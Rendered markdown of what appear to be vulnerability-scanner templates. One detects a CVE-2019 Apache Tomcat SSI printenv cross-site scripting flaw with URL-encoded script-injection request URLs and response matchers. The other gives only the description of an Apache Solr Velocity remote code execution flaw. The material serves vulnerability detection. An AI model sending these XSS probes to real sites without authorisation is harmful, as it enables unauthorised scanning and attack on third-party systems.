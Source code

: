 ## Description

- Apache Tomcat 9.0.0.M1 to 9.0.0.17, 8.5.0 to 8.5.39, and 7.0.0 to 7.0.93 are vulnerable to cross-site scripting because the SSI printenv command echoes user provided data without escaping. Note: SSI is disabled by default. The printenv command is intended for debugging and is unlikely to be present in a production website.

- severity - medium
- tags - apache,xss,tomcat,seclists,edb,cve,cve2019

## Requests

- Method - GET

### URL

- {{BaseURL}}/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E
- {{BaseURL}}/ssi/printenv.shtml?%3Cscript%3Ealert(%27xss%27)%3C/script%3E

### Matchers

**Type - word**

- words
  1. \<script>alert('xss')\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Apache Solr \<=8.3.1 - Remote Code Execution

## Description

- Apache Solr versions 5.0.0 to 8.3.1 are vulnerable to remote code execution vulnerabilities through the VelocityResponseWriter. A Velocity template can be provided through Velocity templates in a configset `velocity/ directory or as a parameter. A user defined configset could contain renderable, potentially malicious, templates. Parameter provided templates are disabled by default, but can be enabled by setting `params.resource.loader.enabled by defining a response writer with that setting set to `true`. Defining a response writer requires configuration API access. Solr 8.4 removed the params resource loader entirely, and only enables the configset-provided template rendering when the configset is `trusted` (has been uploaded by an authenticated user).
- severity - high
- tags - cve,cve2019,apache,rce,solr,oast,kev

